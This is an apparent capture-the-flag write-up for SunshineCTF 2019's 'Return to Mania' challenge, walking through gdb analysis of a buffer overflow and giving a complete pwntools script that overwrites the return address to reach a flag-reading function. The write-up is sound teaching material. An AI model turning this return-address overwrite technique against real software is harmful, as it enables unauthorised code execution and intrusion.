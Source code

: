 #PWN
As a word of warning, I'm not all that good at pwn. Luckily, there were only two pwn challenges. 1 out of 2 is good right? T_T
<br>
<br>
## 50 points: Return to Mania
```
To celebrate her new return to wrestling, Captn Overflow authored this challenge to enter the ring

nc ret.sunshinectf.org 4301

Author: bambu
```
<a href='http://files.sunshinectf.org/pwn/return-to-mania'>binary</a>

I started out by just running the file. 

![](/Images/2019/SunshineCTF/retbegin.PNG)

As the description suggested, it's a buffer overflow challenge. And since it gives us an address, it's probably a return pointer overflow. Let's analyze the executable with <a href='https://github.com/longld/peda'>gdb-peda</a>, shall we?

![](/Images/2019/SunshineCTF/gdbfunc.PNG)

I always start by looking at the functions, then disassembling them.

![](/Images/2019/SunshineCTF/retmain.PNG)

![](/Images/2019/SunshineCTF/retwelc.PNG)

![](/Images/2019/SunshineCTF/remania.PNG)

Interesting. `main` calls `welcome`, but `welcome` never calls `mania`, regardless of the key you put in. So `mania` is probably our goal function here, since the title is literally "Return to Mania". But what does `mania` do? It looks like it reads in a file, so I'm hopeful. I set a breakpoint at main, ran the program, and when it broke, set the program counter to the address of mania.

![](/Images/2019/SunshineCTF/maniainteresting.PNG)

Bingo. That's what we want. It tried to open a '`flag.txt`', which means on the service it actually would open the flag. The address of mania is `0x90` less than the address welcome, and hopefully that's the case for the remote version too. Fun fact: I spent a long time trying to figure out why my code didn't work, and it turned out that I originally did my math wrong (I thought it was `0xA0`).

![](/Images/2019/SunshineCTF/addressesret.PNG)

I then proceeded to use good old <a href='https://github.com/Gallopsled/pwntools'>pwntools</a> to start making my hack. Its a bit messy, so I added some comments to help. This was my final code.
```
from pwn import *
context.log_level = 'debug'               #debug mode, so I can see exactly what my code is doing. Suggested by kcolley
r = remote('ret.sunshinectf.org',4301)    #connect to the service
#r = process('./return-to-mania')         #comment out above line and uncomment this one to test locally
data = r.recvuntil('\n')                  #receive the first line, but I don't care about it so...
data = r.recvuntil('\n')                  #overwrite the first line with the second
print data                                #debug print

x = data[-11:]                            #get the address of welcome
x = int(x,0)                              #convert the hex string to an integer
target = x - int('0x90', 0)               #subtract 0x90 from the address (

target = hex(target)                      #convert the address back to hex for debug purposes
print target                              #debug print

target = int(target, 0)                   #convert it back into integer for actual use
print target                              #debug print

target = p32(target, endian='little')     #convert the integer into a 32 bit architecture little endian address
print target                              #debug print, should print utf-8 encoded hex (often has unprintables)
r.sendline('a'*22+target)                 #send the exploit on over! Thanks to kcolley for suggesting sendline and not just send
print r.recv()                            #print the first line, had no flag so:
print r.recv()                            #print next line (flag)
```
I ran it locally with success:

![](/Images/2019/SunshineCTF/localtestret.PNG)

And then got the flag from the service:

![](/Images/2019/SunshineCTF/serviceret.PNG)

flag: `sun{0V3rfl0w_rUn_w!Ld_br0th3r}`
<br>
<br>
<br>
## 200 points: CyberRumble (TBA)
